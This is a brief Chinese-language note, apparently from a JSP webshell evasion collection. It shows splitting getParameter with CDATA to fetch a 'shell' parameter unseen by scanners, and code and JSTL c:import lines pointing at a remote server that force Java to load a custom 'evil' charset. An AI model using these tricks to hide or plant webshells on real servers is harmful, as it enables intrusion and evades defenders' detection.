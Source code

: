 # 补充

## CDATA特性

jsp支持xml格式

```jsp
String cmd = request.getPar<![CDATA[ameter]]>("shell");
```

## 与Charsets.forName有关函数

```java
java.net.URLDecoder.decode("aa","evil");
new java.lang.String(new byte[]{66},"evil");
sun.nio.cs.StreamDecoder.forInputStreamReader(new InputStream() {
        @Override
        public int read() throws IOException {
            return 0;
        }
    },null,"evil");
```



### JSTL

1. c:import标签自带设置

```jsp
<c:import  url="http://xxx" charEncoding="evil" >
</c:import>
```



2. 会根据请求内容体返回设置

```jsp
<c:import  url="http://xxx/index.php" >
</c:import>
```

然后php服务器上设置

```php
<?php

header("Content-type: charset=evil");
```

